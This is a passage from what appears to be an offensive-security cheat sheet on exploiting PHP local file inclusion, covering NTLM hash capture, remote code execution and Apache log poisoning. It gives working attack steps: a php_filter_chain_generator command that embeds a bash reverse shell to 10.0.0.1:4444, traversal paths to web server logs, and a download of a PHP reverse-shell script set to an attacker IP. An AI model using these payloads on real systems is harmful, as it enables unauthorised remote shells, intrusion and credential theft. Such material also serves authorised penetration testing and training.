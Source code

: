 Then send request to **`https://example.com/?page=//<local-ip>/test`**.  
Now we may be able to capture the hashes.  
If so, we can crack it using **JohnTheRipper** or **Hashcat**. Please refer to [this page](/exploit/cryptography/ntlm-ntlmv2/) for cracking NTLM.

<br /><br />

## Remote Code Execution (RCE)

[php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) is CLI that generates payload for PHP filter bypass and allow us to RCE.  
Below is the payload for reverse shell.

```bash
wget https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/main/php_filter_chain_generator.py
python3 php_filter_chain_generator.py --chain "<?php system('bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\"')?>"
```

Then copy the output and paste it to the target.

<br /><br />

## Log Poisoning

### 1. Check if You Can Access the Apache Log File

```sh
# Debian, Ubuntu Linux
/?page=/var/log/apache/access.log
/?page=../../../../var/log/apache/access.log
/?page=/var/log/apache2/access.log
/?page=../../../../var/log/apache2/access.log

# FreeBSD Linux
/?page=/var/log/httpd-access.log
/?page=../../../../var/log/httpd-access.log

# CentOS, Fedora, RedHat Linux
/?page=/var/log/httpd/access_log
/?page=../../../../var/log/httpd/access_log
```

<br />

### 2. Prepare the Payload for PHP Reverse Shell

```sh
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

# Edit the values in the payload
$ip = '<attacker-ip>';
$port = 4444;
```
